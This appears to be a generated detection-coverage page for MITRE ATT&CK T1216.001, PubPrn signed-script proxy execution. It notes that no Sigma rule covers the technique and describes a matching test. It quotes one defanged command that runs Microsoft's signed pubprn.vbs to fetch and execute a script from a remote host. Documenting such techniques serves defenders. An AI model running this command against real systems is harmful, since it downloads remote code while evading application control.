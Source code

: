 [back](../index.md)

Cover by sigma :x: 

# Attack: PubPrn

 Adversaries may use the trusted PubPrn script to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application control solutions that do not account for use of these scripts.

<code>PubPrn.vbs</code> is a Visual Basic script that publishes a printer to Active Directory Domain Services. The script is signed by Microsoft and can be used to proxy execution from a remote site.(Citation: Enigma0x3 PubPrn Bypass) An example command is <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>.

# MITRE
## Tactic
  - defense-evasion

## technique
  - T1216.001

# Test : PubPrn.vbs Signed Script Bypass

## OS

 ['windows']

## Description:

 Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.


# Sigma Rule
